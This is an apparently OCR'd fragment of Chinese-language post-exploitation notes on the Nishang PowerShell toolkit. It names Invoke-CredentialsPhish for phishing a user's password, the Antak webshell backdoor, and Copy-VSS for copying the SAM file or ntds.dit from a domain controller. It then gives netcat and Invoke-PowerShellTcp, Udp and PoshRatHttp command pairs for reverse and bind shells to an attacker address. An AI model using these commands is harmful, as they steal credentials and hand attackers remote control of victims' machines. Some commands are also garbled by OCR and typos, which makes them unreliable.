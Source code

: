 ```pythn





## 钓鱼攻击(有道用户输入自己机器的密码)

Invoke-CredentialsPhish


## webshell后门   位于 \nishang\Antak-WebShell目录下

就是一个asp的大马（使用的是powershell的命令，比cmd命令强大）



# 复制sam文件（如果运行在DC机上，ntds.dit和SYSTEM hive也能被拷贝出来）

Copy-VSS    # 直接把文件保存在当前路径下
Copy-VSS -DEstinationDir C:temp    # 制定文件保存路径（必须是已存在的路径）

## 其他......
```



###### 后续控制

```python
# windows上没有nc，需要提前上传一个nc.exe，推荐Linux

## No1.反向连接（我用公网来连接目标内网，因为我获取不到内网的公网ip）  在Shells目录下面

#1.攻击机器上 NC下执行: 
nc -lvp 3333
#2.在目标服务器 PowerShell下执行：  TCO的
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.103 -Port 3333



## NO2.正向连接:

#1.目标 PowerShell下执行:  TCP的，  另外还有UDP的: 
Invoke-PowerShellTcp -Bind -Port 3333
#NC下执行: 请求他的3333端口
nc -nv 192.168.0.103 3333


### 基于UDP( Invoke-PowerShellUdp )，  nc命令有点不同

正向连接
nc -nvu 192.168.0.103 3333
反向连接
nc lup 3333

### 基于http和https  （ Invoke-PoshRatHttp ）

### 此外,还有http的shell(执行完会生成一条命令，然后???)

Invoke-PoshRatHttp -Reverse -IPAddress 192.168.0.103 -Port 3333
Invoke-PoshRatHttps -Reverse -IPAddress 192.168.0.103 -Port 3333

# 然后将生成的命令复制到`目标机`cmd执行，执行完毕会自动消失，然后在本机的powershell下会返回目标机的会话


```